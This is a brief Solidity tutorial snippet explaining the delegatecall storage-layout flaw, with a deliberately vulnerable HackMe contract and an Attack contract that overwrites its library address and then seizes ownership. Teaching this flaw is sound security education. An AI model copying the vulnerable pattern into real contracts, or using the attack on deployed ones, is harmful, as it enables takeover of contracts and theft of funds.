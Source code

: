 

## Delegatecall

When call delegatecall function to udpate a storage variable, the modification of the variable is not based on the name of the variable, but on the storage location of the variable.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

contract Lib {
    uint public number;

    function updateNumber(uint _num) external {
        number = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public number;

    constructor(address _lib) public {
        lib = _lib;
        owner = msg.sender;
    }

    function updateNumber(uint _num) external {
        lib.delegatecall(abi.encodeWithSignature("updateNumber(uint256)", _num));
    }
}

contract Attack {
    address public lib;
    address public owner;
    uint public number;

    HackMe public hackMe;

    constructor(HackMe _hackMe) public {
        hackMe = HackMe(_hackMe);
    }

    function attack() external {
        hackMe.updateNumber(uint(uint160(address(this))));
        hackMe.updateNumber(1);
    }

    function updateNumber(uint _num) external {
        owner = tx.origin;
    }
}
```
